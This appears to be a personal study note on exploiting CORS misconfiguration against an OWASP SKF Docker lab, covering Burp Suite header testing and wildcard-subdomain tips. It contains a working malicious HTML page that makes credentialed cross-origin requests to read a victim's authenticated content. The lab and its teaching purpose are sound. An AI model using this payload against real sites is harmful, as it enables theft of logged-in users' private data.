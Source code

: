```yaml
---
tags:
  - vulnerabilty
  - "#cors"
---
```

# What is CORS?

**Cross-Origin Resource Sharing**

When are different domains, you can realize a request from other domain (imagine that you hacked a domain with an [XSS](../XSS/XSS.md) but you can point to other domain by this)

If a CORS is bad defined you can point from a external domain to other resources from other pages.

By default the policy of **same origin** in this case don't work because as third-party server is not allowed to bring resources 

The policy of CORS define **the third-party domains** that can realize request to take resources, only the domain that you define them, sometimes is bad defined and used wildcards ( like * ) 

---

# Exploiting

We are going to create a malicious page that have an script that allow to see all the content that the user is viewing, this is possible because the CORS is bad configured

## Intercept the request with burpsuite

The credential are admin:admin

![](../../Images/Pasted%20image%2020230905172127.png)


Intercept this with Burpsuite and send to Repeater, in the repeater send the request and in the response we can see the following headers:
````java
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: *
````

We can introduce a header in our request:

````bash
Origin: https.//test.com
````

Send the request and see if in the header Access-Control-Allow-Origin put the URL that indicate

![](../../Images/Pasted%20image%2020230905172517.png)

This allow to that domain to do requests.

This is a big failure, now as a malicious attacker I can control this

We can put some domain that is under our control, or put localhost

![](../../Images/Pasted%20image%2020230905172850.png)

The header `Access-Control-Allow-Credentials` --> Allow to do request that contain session cookie and more

Now we are going to create a file named malicious.html

````html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('GET', 'http://127.0.0.1:5000/confidential', true);
    req.withCredentials = true;
    req.send();

    function reqListener(){
            document.getElementById("stolenInfo").innerHTML = req.responseText;
        }

</script>

<center><h1>You have been Pwnd!!</h1></center>

<p id="stolenInfo"></p>
````

We are going to get all the source code of the website (that we can't see because we are not authenticated) an store in a variable

`req.onload = reqListener` --> When the user go to our website, what we want to happen (reqListener is a function)

`req.open .. true` --> Petition have to bee asynchronous (we wait that load all and do the petition)

`req.withCredentials` --> This is because the user is authenticated and we need the session cookie. We put this because we see in the response the `Access-Control-Allow-Credentials: true` header

`reqListener` --> In this function we want to display all that the user is viewing

The output of this is not beautiful, this is because we don't have the files like css, js, svg...

To resolve this, if you see the log in python server, you can see the resources:

![](../../Images/Pasted%20image%2020230905231139.png)

You can recreate that, create folders with mkdir, download the files (with wget) and put them in their correspondent folder 

---

# Tips

Imagine that the CORS policy is something like this:

````bash
*.dominio.com
````

You can create a domain like **f.domain.com** 

---
# Labs

Build the image:

> sudo docker pull blabla1337/owasp-skf-lab:cors

To launch the image use:

````bash
sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:cors
````


